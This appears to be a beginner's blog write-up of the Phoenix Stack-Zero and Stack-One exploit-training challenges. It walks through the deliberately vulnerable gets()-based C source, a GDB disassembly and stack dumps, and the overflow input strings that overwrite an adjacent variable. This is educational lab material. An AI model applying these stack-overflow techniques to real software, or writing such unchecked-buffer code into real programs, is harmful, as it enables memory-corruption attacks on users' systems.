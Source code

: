 ```yaml
---
title: Phoenix Stack-Zero and One
published: true
---
```


### 0x0. Introduction
Phoenix is an entry level IT-Security challenge hosted at *https://exploit.education/*. It consists of multiple levels introducing participants to the concepts of binary exploitation as well as some network-security fundamentals in later levels. I myself am fairly new to this field and hope to learn a lot during these challenges and will (probably) post my Write-ups for all of them as I advance.


### 0x1. Setup

Download the Phoenix amd64 VM from **https://exploit.education/downloads/**   
The download contains a bash script that you will need to make executable with chmod +x name-of-bash.sh
If you have qemu installed on your system, the VM should begin to boot when you execute the script.

You can of course just do everything within the VM itself, i prefer to ssh into it to have a more familiar shell and copy paste capabilities. If you want to do that as well you will notice that you can not ssh straight to the IP of your VM, instead if you look into the boot script you will find the following line:
```bash
-netdev user,id=unet,hostfwd=tcp:127.0.0.1:2222-:22 \
```

This means that port 22 of your VM is getting forwarded to localhost or 127.0.0.1 on port 2222.

```bash
ssh user@127.0.0.1 -p 2222
```

and login with user/user which are default credentials as documented on https://exploit.education/phoenix/getting-started/

### 0x2. Taking a look at the source code

The code can be found at https://exploit.education/phoenix/stack-zero/

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
"Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
struct {
char buffer[64];
volatile int changeme;
} locals;

printf("%s\n", BANNER);

locals.changeme = 0;
gets(locals.buffer);

if (locals.changeme != 0)
{
puts("Well done, the 'changeme' variable has been changed!");
} else {
puts(
"Uh oh, 'changeme' has not yet been changed. Would you like to try "
"again?");
}

exit(0);
}
```

Aside from the banner printing, this program does two simple things. It takes one argument and puts it into a variable called buffer which has a size of 64. It also has Integer variable called changeme which gets set to 0 and is never changed. At the end the program checks if "changeme" is still zero and prints a statement depend on the result.
So our challenge here is to change the changeme Variable and for the first level its made pretty obvious that this program is vulnerable to a Bufferoverflow.

There are some things to be noted tho.
##### Why are the variables buffer and chageme in a struct?
Contiguous(adjacent) memory locations are used to store structure members in memory. Or in other words: This way our variables will always end up next to each other in memory.

##### Why is changeme "volatile"?
This tells the compiler to not optimize the usage of this variable,
without the volatile keyword the compiler would just skip the if statement altogether because you know the variable is never changed inside the code so why would the compiler bother to check if it changed anyway?

##### How do you know that this is vulnerable?
We take user input in form of an argument and put it right into the buffer variable with no security checks whatsoever. If you look up the manual page for "gets" you will see the following:

```
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read
and because gets() will continue to store characters past the end
of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

### 0x3. Exploring and Exploiting the program in GDB

Let's start with taking a look at the assembler code, 'disassemble main' will produce the following output:

```
Dump of assembler code for function main:
0x00000000004005dd <+0>: push rbp
0x00000000004005de <+1>: mov rbp,rsp
0x00000000004005e1 <+4>: sub rsp,0x60
0x00000000004005e5 <+8>: mov DWORD PTR [rbp-0x54],edi
0x00000000004005e8 <+11>: mov QWORD PTR [rbp-0x60],rsi
0x00000000004005ec <+15>: mov edi,0x400680
0x00000000004005f1 <+20>: call 0x400440 <puts@plt>
0x00000000004005f6 <+25>: mov DWORD PTR [rbp-0x10],0x0
0x00000000004005fd <+32>: lea rax,[rbp-0x50]
0x0000000000400601 <+36>: mov rdi,rax
0x0000000000400604 <+39>: call 0x400430 <gets@plt>
0x0000000000400609 <+44>: mov eax,DWORD PTR [rbp-0x10]
0x000000000040060c <+47>: test eax,eax
0x000000000040060e <+49>: je 0x40061c <main+63>
0x0000000000400610 <+51>: mov edi,0x4006d0
0x0000000000400615 <+56>: call 0x400440 <puts@plt>
0x000000000040061a <+61>: jmp 0x400626 <main+73>
0x000000000040061c <+63>: mov edi,0x400708
0x0000000000400621 <+68>: call 0x400440 <puts@plt>
0x0000000000400626 <+73>: mov edi,0x0
0x000000000040062b <+78>: call 0x400450 <exit@plt>
End of assembler dump.
```

Now I set two break points one before our input but with the stack already in place and one after our input, in this case I choose:

```
break *0x4005e5
break *0x400626
```

Now to have a good view on what happens on the stack I define a command "stack" that will print all words associated with it

```
gdb➤ define stack
Type commands for definition of "stack".
End with a line saying just "end"
>x/25wx $rsp
>end
```

now type "run" followed by "stack" and you should see the following output

```
0x7fffffffe5d0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe5e0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe5f0: 0x00000000 0x00000000 0x00000000 0x00000000
0x7fffffffe600: 0x00000000 0x00000000 0xffffe688 0x00007fff
0x7fffffffe610: 0x00000001 0x00000000 0xffffe698 0x00007fff
0x7fffffffe620: 0x004005dd 0x00000000 0x00000000 0x00000000
0x7fffffffe630: 0x00000001
```

This is our Stack with rsp at 0x7fffffffe5d0 and rbp at 0x7fffffffe630.  
But we still need to know where our "changeme" variable is located to solve this challenge meaningful.
We know from the source code that changeme gets first initialized and later set to 0, since there is only one variable
getting set to zero in this code its pretty easy to find:

```
0x00000000004005f6 <+25>: mov DWORD PTR [rbp-0x10],0x0
```

Therefore, changeme is located at rbp-0x10 or 0x7fffffffe620.  
Hit run again this time you should get prompted for input, a commonly used pattern for that can easily be recognized in memory is the alphabet.
In case you are to lazy to craft your own input this one will do:

```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

This will of course already give you the "Well done, the 'changeme' variable has been changed!" output, but lets see what's really going on.
You should have hit the second breakpoint now so type "stack" again and see what changed.

```
0x7fffffffe5d0: 0xffffe688 0x00007fff 0x00000000 0x00000001
0x7fffffffe5e0: 0x41414141 0x42424242 0x43434343 0x44444444
0x7fffffffe5f0: 0x45454545 0x46464646 0x47474747 0x48484848
0x7fffffffe600: 0x49494949 0x4a4a4a4a 0x4b4b4b4b 0x4c4c4c4c
0x7fffffffe610: 0x4d4d4d4d 0x4e4e4e4e 0x4f4f4f4f 0x50505050
0x7fffffffe620: 0x51515151 0x52525252 0x53535353 0x54545454
0x7fffffffe630: 0x55555555
```

I have to admit I have no idea why our input starts at 0x7fffffffe5e0 and not 0x7fffffffe5d0, so if you do please let me know at mindslave.blog@protonmail.com.
What we can clearly see here tho is that "changeme" got overwritten by the letter Q (0x51), you can just do a quick google search for ASCII-table to know which letter translates to which hexadecimal number.
Knowing this we have not just solved this level but the next one (StackOne) is also trivial since all you have to is to overwrite changeme with a specific value, so just use AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP followed by the value you want "changeme" to have.

```
run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
Starting program: /opt/phoenix/amd64/stack-one AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPbYlI
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

This is my first ever blog post and I doubt anyone ever reads it all the way but if you did, thank you very much :)







